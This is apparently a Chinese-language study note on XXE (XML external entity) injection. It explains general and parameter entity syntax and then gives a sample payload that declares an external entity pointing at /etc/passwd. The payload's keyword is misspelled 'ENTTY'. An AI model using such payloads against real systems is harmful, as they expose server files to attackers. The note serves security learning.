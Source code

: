 xml实体：XML语言的变量，和PHP,JSP等语言变量一样，有变量名，变量值，通过&/%进行调用

xml实体类型

|   类型   |                  普通实体                  |                 参数实体                 |
| :------: | :----------------------------------------: | :--------------------------------------: |
| 使用场合 |                 xml文档中                  |                dtd文档中                 |
|   声明   |        内部`<!ENTITY name "value">`        |        `<!ENTITY % name "value">`        |
|          | 外部`<!ENTITY name SYSTEM "外部文件地址">` | `<!ENTITY % name SYSTEM "外部文件地址">` |
| 引用方式 |                   &name;                   |    %name; 声明中间有空格，引用时没有     |

## **XXE漏洞**

### **原理**

​		解析XML文件时加载了外部实体，没有过滤用户提交的参数，造成恶意XML代码被带入到XML解析器中解析执行，称为XML外部实体注入

```xml
#payload:
<!DOCTYPE user [
	<!ENTTY user1 SYSTEM "/etc/passwd">
]>
<user><username>&user1;</username><password>DeBf76sFV8WVcxQ</password></user>
```

![image-20210802105135870](0x007ssrf/image-20210802105135870.png)
